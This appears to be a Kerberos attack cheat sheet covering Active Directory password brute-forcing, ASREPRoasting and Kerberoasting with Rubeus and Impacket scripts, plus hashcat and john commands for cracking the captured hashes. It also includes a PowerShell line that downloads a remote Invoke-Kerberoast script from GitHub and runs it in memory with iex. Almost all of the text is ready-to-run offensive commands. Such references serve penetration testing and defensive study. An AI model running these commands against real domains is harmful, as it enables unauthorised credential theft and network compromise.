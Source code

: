 With [Rubeus](https://github.com/Zer1t0/Rubeus) version with brute module:
```shell
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```

## ASREPRoast

With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetNPUsers.py:
```shell
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

With [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
# check ASREPRoast for all users in current domain
.\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>
```

Cracking with dictionary of passwords:
```shell
hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>

john --wordlist=<passwords_file> <AS_REP_responses_file>
```


## Kerberoasting

With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetUserSPNs.py:
```shell
python GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>
```


With [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```

With **Powershell**:
```
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>
```
